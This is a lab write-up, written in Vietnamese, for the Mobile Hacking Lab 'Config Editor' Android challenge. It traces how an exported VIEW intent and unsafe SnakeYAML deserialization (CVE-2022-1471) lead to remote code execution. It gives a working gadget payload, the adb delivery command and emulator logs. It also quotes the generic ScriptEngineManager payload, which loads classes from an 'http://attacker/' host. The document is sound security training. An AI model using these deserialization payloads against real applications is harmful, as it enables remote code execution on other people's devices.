# Config Editor - Android RCE Writeup

*Ref: [Config Edittor - Mobile Hacking Lab](https://www.mobilehackinglab.com/course/lab-config-editor-rce)*
## Tổng quan
Lab này có thể được giải bằng cách nối chuỗi một điểm vào `VIEW` đã export với unsafe SnakeYAML deserialization.

Ở mức cao, ứng dụng chấp nhận một tài nguyên YAML từ bên ngoài, tải nó xuống, sau đó parse nó bằng `SnakeYAML` với constructor mặc định permissive. Vì APK cũng chứa một local gadget class nguy hiểm, YAML do attacker kiểm soát có thể được biến thành command execution trực tiếp.

Bài writeup này giải thích cách CVE-2022-1471 dẫn tới root cause chính xác trong ứng dụng này, dữ liệu chạy qua app như thế nào, và vì sao payload riêng của lab này đơn giản hơn nhiều so với payload `ScriptEngineManager` tổng quát thường được nhắc đến trong các bài viết công khai.

## Bắt đầu từ CVE-2022-1471
CVE-2022-1471 là lỗ hổng unsafe deserialization kinh điển của SnakeYAML. Bài học quan trọng từ CVE này không nằm ở một magic payload duy nhất, mà nằm ở một mẫu thiết kế nguy hiểm:

- untrusted YAML đi tới `Yaml.load(...)`
- SnakeYAML chấp nhận Java type tag do attacker kiểm soát
- parser instantiate Java class trong quá trình deserialization
- một class reachable trên classpath có side effect nguy hiểm
- việc tạo object trở thành code execution

Vì vậy khi audit APK này, câu hỏi đúng không phải là "Nó có dùng chính xác payload công khai của CVE hay không?" mà là:

- App có parse attacker-controlled YAML không?
- App có dùng SnakeYAML theo cách không an toàn không?
- Trên classpath của app có gadget phù hợp không?

Trong lab này, cả ba câu trả lời đều là có.

## Dò tìm bề mặt tấn công
### Điểm vào đã export
`MainActivity` được export và chấp nhận `VIEW` intent cho YAML từ các nguồn `file`, `http`, và `https`:



Chỉ riêng điều này đã tạo ra một bề mặt delivery cho attacker.

### Luồng tải từ xa
App chuyển `Uri` đầu vào thành `URL` và tải nó về. Đối với tài nguyên từ xa, nó dùng `HttpURLConnection`:



App cũng cho phép cleartext traffic:



Điều này giúp việc test trên emulator trở nên đơn giản với `http://10.0.2.2:8686/...` *(host của máy tôi)*.

## Nguyên nhân gốc
Nguyên nhân gốc là unsafe deserialization trên attacker-controlled YAML.

Trong `MainActivity.loadYaml()`, app tạo SnakeYAML bằng `new Yaml(dumperOptions)` và lập tức gọi `yaml.load(inputStream)` trên input bên ngoài:


Chi tiết quan trọng ở đây là `Yaml(DumperOptions)` **không** tạo ra safe parser. Trong source tree này, nó vẫn tạo default SnakeYAML `Constructor`:



Vì vậy, mẫu code dễ bị tổn thương là:

```java
Yaml yaml = new Yaml(dumperOptions);
Object deserializedData = yaml.load(inputStream);
```

## Vì sao SnakeYAML nguy hiểm trong trường hợp này
### Tag-controlled class resolution
SnakeYAML cho phép YAML tag đại diện cho tên Java class.

Khi deserialize một object được gắn tag, nó resolve class từ tag đó và nạp nó bằng `Class.forName(...)`:




Nội bộ SnakeYAML dùng namespace `tag:yaml.org,2002:` cho các tag:




### Scalar-node constructor invocation
Scalar node là một giá trị YAML không có cấu trúc lồng nhau, ví dụ như string, number, hoặc boolean.

SnakeYAML model nó thành `ScalarNode` với `NodeId.scalar`:





Với tagged scalar node, SnakeYAML sử dụng `ConstructScalar` và tìm constructor một tham số:



Đây là một sự khớp hoàn hảo với gadget có sẵn trong APK.

## Gadget riêng của lab này
APK chứa một local gadget class:

Constructor của nó là:

```java
public LegacyCommandUtil(String command) throws IOException {
    Runtime.getRuntime().exec(command);
}
```

Điều này có nghĩa là một tagged scalar YAML object có thể map trực tiếp thành:

```text
LegacyCommandUtil(String command)
-> Runtime.exec(command)
```

Đó là lý do exploit riêng của lab này đơn giản hơn nhiều so với các payload công khai tổng quát của CVE.

## Luồng dữ liệu đầu-cuối
Luồng đầy đủ trong lab này là:

```text
Attacker-controlled URL
-> VIEW intent
-> MainActivity.handleIntent()
-> CopyUtil.copyFileFromUri()
-> HttpURLConnection downloads YAML
-> MainActivity.loadYaml()
-> SnakeYAML Yaml.load()
-> resolve explicit Java tag
-> instantiate LegacyCommandUtil(String)
-> Runtime.exec()
-> RCE
```

Đi từng bước:

1. `MainActivity.onCreate()` gọi `handleIntent()`.


2. `handleIntent()` đọc `VIEW` intent đầu vào và truyền URI sang `CopyUtil.copyFileFromUri(data)`.


3. `CopyUtil` tải YAML và lưu nó local.



4. Observer gọi `loadYaml(uri)` trên file vừa tải về.

5. `loadYaml()` gọi `yaml.load(inputStream)` và quá trình deserialization bắt đầu.


1. SnakeYAML resolve explicit Java tag và instantiate gadget.


2. Constructor của gadget thực thi command được cung cấp.


## Vì sao không cần payload ScriptEngineManager tổng quát
Các writeup công khai về CVE-2022-1471 thường dùng các payload như:

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker/"]
  ]]
]
```

Payload đó là một JDK gadget chain tổng quát. Nó dựa vào class loading và service/provider discovery behavior.

Lab này dễ hơn vì chính APK đã chứa một direct gadget:

```text
YAML tag -> LegacyCommandUtil(String) -> exec()
```

Không cần đến indirect JDK gadget.

## Thiết kế payload cho lab này
### Payload kiểm tra parse
Một payload YAML vô hại có thể được dùng để xác minh luồng tải và parse:
`payload-check.yml`
```yml
name: test
value: 123
items:
  - one
  - two
meta:
  source: local-host-8686
  purpose: verify-download-and-parse
```

### Payload thực thi command
Payload đơn giản nhất đã được xác nhận trước đó là bản log-based proof:

`payload-rce-log.yml`
```yml
!!com.mobilehackinglab.configeditor.LegacyCommandUtil "/system/bin/log -t RCE_POC reached"
```


Dạng này phù hợp với lab vì:

- nó dùng đúng app-local gadget thật sự
- nó tránh shell metacharacters và redirection
- nó fit tốt với `Runtime.exec(String)`
- nó để lại một file artifact có thể kiểm tra trên thiết bị

## Xác minh thực tế
Luồng khai thác đã được xác minh qua hai giai đoạn.

### Giai đoạn 1: Delivery và parsing
`payload-check.yml` được load qua remote `VIEW` path và hiển thị đúng trong UI. Điều đó xác nhận:

- `VIEW` intent route hoạt động
- emulator có thể truy cập host qua `10.0.2.2:8686`
- app tải file thành công
- `loadYaml()` và `yaml.load()` đã được gọi

### Giai đoạn 2: Command execution
Sau đó, một gadget payload dùng `LegacyCommandUtil` được load và tạo ra bằng chứng log như sau:
```commandLine
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d "http://10.0.2.2:8686/payload-rce.yml" -t "application/yaml"
```
```commandLine
04-17 13:36:07.373   566  1803 I ActivityTaskManager: START u0 {act=android.intent.action.VIEW dat=http://10.0.2.2:8686/... typ=application/yaml flg=0x10000000 cmp=com.mobilehackinglab.configeditor/.MainActivity} from uid 0
04-17 13:36:07.385   566  1482 W ActivityTaskManager: Tried to set launchTime (0) < mLastActivityLaunchTime (16823541)
04-17 13:36:07.473   369   409 D goldfish-address-space: claimShared: Ask to claim region [0x3f3438000 0x3f3e1c000]
04-17 13:36:07.483   369   409 D goldfish-address-space: claimShared: Ask to claim region [0x3f73ec000 0x3f7dd0000]
04-17 13:36:07.490   369   409 D goldfish-address-space: claimShared: Ask to claim region [0x3f54d9000 0x3f5ebd000]
04-17 13:36:07.543   566   592 I ActivityTaskManager: Displayed com.mobilehackinglab.configeditor/.MainActivity: +169ms
04-17 13:36:07.562  8655  8674 D EGL_emulation: app_time_stats: avg=3253.92ms min=1.78ms max=35050.13ms count=11
04-17 13:36:07.580  1344  1344 I GoogleInputMethodService: GoogleInputMethodService.onFinishInput():3420 
04-17 13:36:07.581  1344  1344 I GoogleInputMethodService: GoogleInputMethodService.onStartInput():2002 
04-17 13:36:07.582  1344  1344 I DeviceUnlockedTag: DeviceUnlockedTag.notifyDeviceLockStatusChanged():31 Notify device unlocked.
04-17 13:36:07.984   566  1803 D AutofillSession: Set the response has expired.
04-17 13:36:08.399  8960  8960 I RCE_POC : reached
```


Điều đó xác nhận:

- SnakeYAML đã chấp nhận explicit Java tag
- tagged scalar node đã được map thành `LegacyCommandUtil(String)`
- `Runtime.getRuntime().exec(...)` đã được gọi thành công

## Kết luận
Nguyên nhân gốc của lab này là unsafe SnakeYAML deserialization trên attacker-controlled YAML.

Đường khai thác rất thẳng vì APK chứa một local gadget lý tưởng. Attacker chỉ cần đưa một tagged scalar YAML object tới `yaml.load(...)`, và SnakeYAML sẽ làm phần còn lại:

```text
Untrusted YAML
-> explicit Java tag
-> class resolution
-> constructor invocation
-> Runtime.exec()
```

Điều quan trọng nhất cần rút ra là phần nguy hiểm không chỉ nằm ở việc load YAML từ một nguồn bên ngoài. Vấn đề thật sự là việc cho phép untrusted YAML điều khiển Java type resolution trong quá trình deserialization.
